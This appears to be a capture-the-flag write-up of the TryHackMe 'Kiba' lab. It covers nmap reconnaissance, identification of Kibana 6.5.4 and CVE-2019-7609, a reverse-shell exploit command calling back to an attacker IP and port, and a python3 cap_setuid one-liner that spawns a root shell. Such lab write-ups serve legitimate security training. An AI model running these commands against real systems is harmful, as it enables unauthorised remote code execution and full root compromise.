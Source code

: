 ```yaml
---
title: Walkthrough - Kiba
published: true
---
```


RCE, Elastic, Python, Linux Capabilities, Kibana. Identify the critical security flaw in the data visualization dashboard, that allows execute remote code execution.

[https://tryhackme.com/room/kiba](https://tryhackme.com/room/kiba)

* * * 

## What is the vulnerability that is specific to programming languages with prototype-based inheritance?

- [Prototype Pollution](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/)

* * * 

## What is the version of visualization dashboard installed in the server?

- ``nmap -p- -T4 10.10.71.45 -vvv``

```
PORT     STATE SERVICE     REASON
22/tcp   open  ssh         syn-ack
80/tcp   open  http        syn-ack
5044/tcp open  lxi-evntsvc syn-ack
5601/tcp open  esmagent    syn-ack
```

- ``sudo nmap -sV -sT -sC -p22,80,5044,5601 10.10.71.45``

```
PORT     STATE SERVICE      VERSION
22/tcp   open  ssh          OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9d:f8:d1:57:13:24:81:b6:18:5d:04:8e:d2:38:4f:90 (RSA)
|   256 e1:e6:7a:a1:a1:1c:be:03:d2:4e:27:1b:0d:0a:ec:b1 (ECDSA)
|_  256 2a:ba:e5:c5:fb:51:38:17:45:e7:b1:54:ca:a1:a3:fc (ED25519)
80/tcp   open  http         Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
5044/tcp open  lxi-evntsvc?
5601/tcp open  esmagent?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|     HTTP/1.1 400 Bad Request
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 60
|     connection: close
|     Date: Wed, 03 Aug 2022 14:29:32 GMT
|     {"statusCode":404,"error":"Not Found","message":"Not Found"}
|   GetRequest: 
|     HTTP/1.1 302 Found
|     location: /app/kibana
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     cache-control: no-cache
|     content-length: 0
|     connection: close
|     Date: Wed, 03 Aug 2022 14:29:27 GMT
|   HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 38
|     connection: close
|     Date: Wed, 03 Aug 2022 14:29:28 GMT
|_    {"statusCode":404,"error":"Not Found"}
```

- kibana app located at ``http://10.10.71.45:5601/app/kibana``
- checking and Ctrl+F "Version" we find 6.5.4 in the source code.

* * * 

## What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000

- Googling the Kibana version lead me to it and a script for execution https://github.com/LandGrey/CVE-2019-7609``

* * * 

## Compromise the machine and locate user.txt

- Found a script that executes payload ``python2 CVE-2019-7609-kibana-rce.py -u http://10.10.157.84:5601/ -host 10.2.127.225 -port 6666 --shell``

* * * 

## Capabilities is a concept that provides a security system that allows "divide" root privileges into different values - How would you recursively list all of these capabilities?

```
kiba@ubuntu:/home/kiba/.hackmeplease$ getcap -r / 2>/dev/null
/home/kiba/.hackmeplease/python3 = cap_setuid+ep
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
```

* * * 

## Escalate privileges and obtain root.txt

- this python3 binary has ``CAP_SETUID`` set ``/home/kiba/.hackmeplease/python3 = cap_setuid+ep``
- escalate privilege to root ``./python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'``

* * * 

